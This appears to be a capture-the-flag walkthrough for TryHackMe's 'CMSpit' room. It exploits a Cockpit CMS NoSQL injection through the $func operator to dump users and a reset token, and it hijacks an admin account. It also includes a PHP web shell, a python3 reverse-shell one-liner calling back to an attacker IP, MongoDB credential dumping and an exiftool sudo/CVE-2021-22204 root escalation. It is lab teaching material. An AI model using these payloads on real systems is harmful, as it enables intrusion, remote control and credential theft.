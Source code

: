 Machine: CMSpit

URL: [https://tryhackme.com/room/cmspit](https://tryhackme.com/room/cmspit)

Difficulty: Medium 

Author: [stuxnet](https://tryhackme.com/p/stuxnet)

## Enumeration

#### Nmap

	# Nmap 7.91 scan initiated Mon Aug  2 21:11:13 2021 as: nmap -v -sC -sV -oA nmap/scan 10.10.106.225
	Increasing send delay for 10.10.106.225 from 0 to 5 due to 118 out of 391 dropped probes since last increase.
	Nmap scan report for 10.10.106.225
	Host is up (0.38s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
	|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
	|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-favicon: Unknown favicon MD5: C9CD46C6A2F5C65855276A03FE703735
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	| http-title: Authenticate Please!
	|_Requested resource was /auth/login?to=/
	|_http-trane-info: Problem with XML parsing of /evox/about
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Read data files from: /usr/bin/../share/nmap
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Mon Aug  2 21:12:16 2021 -- 1 IP address (1 host up) scanned in 63.73 seconds

Two open ports 22/shh and 80/http

80/http is running with **Cockpit cms**

![sada](../assets/img/thm/cmspit/80http.png)

We known cms is Cockpit then look google for any exploit!

we got this article [https://swarm.ptsecurity.com/rce-cockpit-cms/](https://swarm.ptsecurity.com/rce-cockpit-cms/) and next as follow this
try to exploit!

## Exploit

**Step 1: Dump Users**

[http://10.10.59.7/auth/login](http://10.10.59.7/auth/login) intercept the request send to repeater then modify the request Using the _$func_ operator of the MongoLite library (used by default)

![image](../assets/img/thm/cmspit/var_dump.png)

we successfully dumped!

**Step 2: Try to Dump PasswordReset Token**

As same as before intercept the forgotpassword reset request send to repeater and change the header requestreset to resetpassword and 
user parameter to token and add $func param too and send value var_dump.

	{
		"token":{
			"$func":"var_dump"
		}
	}

![image](../assets/img/thm/cmspit/reset_token.png)

As successfully we got token

**Step 3: Send new request for new password**

Change the header as auth/newpassword and add token parameter to send token!

![image](../assets/img/thm/cmspit/newpasswd.png)

![image](../assets/img/thm/cmspit/newpasswdweb.png)

Done! next lets login

Dashboard
![image](../assets/img/thm/cmspit/dashboard.png)

## Time to Reverse shell

Go to finder and click create ..file

![image](../assets/img/thm/cmspit/finder.png)

create a php file for web shell _shellme.php_

![image](../assets/img/thm/cmspit/create.png)

file is created successfully 

![image](../assets/img/thm/cmspit/shellme.png)

then edit the file enter the php payload

```php
<?php
        echo shell_exec($_REQUEST['cmd']);
?>
```
![image](../assets/img/thm/cmspit/writeshell.png)

save it and open it

![image](../assets/img/thm/cmspit/id.png)

yeah! we did lets get reverse shell with python3 payload

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.xx.xxx",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image](../assets/img/thm/cmspit/reversesheel.png)

## Enum for SSH Creds

in terminal type _mongo_

	>show dbs

	>use sudousersbak

	>show collections

in this we get _webflag_ and user creds..
	
	>db.user.find()

	{ "_id" : ObjectId("60a89d0caadffb0ea68915f9"), "name" : "p4ss******123" }
	{ "_id" : ObjectId("60a89dfbaadffb0ea68915fa"), "name" : "stux" }
	> 

![image](../assets/img/thm/cmspit/pass.jpg)

Yeah! we got ssh crendentials stux:p4ssxxxxxxxxx123

## Privilege escalation

sudo -l

PrivEsc using Exiftool 

![image](../assets/img/thm/cmspit/sudo-l.png)

On [Gtfobins](https://gtfobins.github.io/gtfobins/exiftool/#sudo)

	sudo exiftool -filename=/home/stux/root.txt /root/root.txt

Now check stux home dir!
 
After some googling found __Arbitrary Code Execution for CVE-2021-22204 in ExifTool__

Exploit: [https://github.com/se162xg/CVE-2021-22204](https://github.com/se162xg/CVE-2021-22204)

Download the script then send to the Machine 

	bash Exiftool-PrivEsc.sh 'sudo su'

	sudo -u root /usr/local/bin/exiftool delicate.jp

![image](../assets/img/thm/cmspit/root.png)

Rooted!

